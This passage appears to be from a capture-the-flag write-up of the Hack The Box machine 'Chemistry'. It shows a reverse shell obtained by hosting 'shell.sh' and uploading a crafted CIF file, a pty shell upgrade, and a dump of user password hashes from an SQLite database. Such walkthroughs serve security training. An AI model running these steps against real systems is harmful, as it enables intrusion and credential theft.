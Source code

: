 Hosted `shell.sh` using Python’s HTTP server:<br>
`python3 -m http.server 80`

After uploading `vuln.cif` and clicking "View" I received a reverse shell connection:
![](/assets/blogimages/Writeups/Hackthebox/Chemistry/Chemistry2.png)
![](/assets/blogimages/Writeups/Hackthebox/Chemistry/Chemistry3.png)


To stabilize the shell, I ran:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

During enumeration, I discovered an SQLite database (`database.db`) in `/home/app/instance`. Extracting its contents reveals user hashes:
```
┌──(root㉿riminux)-[/tmp]
└─# sqlite3 database.db
SQLite version 3.44.0 2023-11-01 11:23:50
Enter ".help" for usage hints.
sqlite> .tables
structure  user     
sqlite> select * from user
   ...> ;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
```